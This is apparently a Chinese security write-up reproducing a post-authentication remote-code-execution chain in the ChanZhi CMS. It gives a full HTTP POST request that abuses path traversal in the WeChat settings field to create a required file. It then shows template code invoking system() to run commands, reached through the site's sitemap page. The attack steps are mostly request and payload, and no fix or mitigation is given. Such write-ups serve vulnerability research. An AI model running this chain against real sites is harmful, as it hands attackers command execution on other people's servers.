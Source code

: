 禅知 后台getshell
=================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

后台存在模板编辑，但是如果保存的话需要创建一个/system\\tmp\\xjrg.txt文件，那么我们找到一个可以创建任意文件的地方就

![](resource/禅知后台getshell/media/rId24.png)

在/system/module/wechat/model.php

![](resource/禅知后台getshell/media/rId25.png)

\$qrcodeFile未过滤目录穿越导致可以去其他地方创建文件夹通过微信设置原始ID的地方写入穿越的文件路径

![](resource/禅知后台getshell/media/rId26.png)

    POST /chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1 HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Referer: http://localhost/chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1
    Content-Length: 120
    Cookie: adminsid=ae8tu3s80j8cfvh2hkgu41bbig; adminLang=zh-cn; adminDevice=desktop; theme=default; currentGroup=setting; frontsid=eaa0tdicbqfq0lurm89t3n9fvn; frontLang=zh-cn; frontDevice=desktop
    X-Forwarded-For: 8.8.8.8
    Connection: close

    type=subscribe&name=123&account=..%2F..%2F..%2Fsystem%5Ctmp%5Cxjrg.txt%5C1&appID=789&appSecret=100&token=222&certified=0

点一下二维码，再随便传一张图片，可以看到创建了一个xjrg.txt文件夹

![](resource/禅知后台getshell/media/rId27.png)

现在我们再去编辑模板，{!echo(system(\'ipconfig\'))},可以直接写入一句话

![](resource/禅知后台getshell/media/rId28.png)

然后在访问前台

http:/0-sec.org/chanzhieps/www/index.php/sitemap/

![](resource/禅知后台getshell/media/rId29.png)
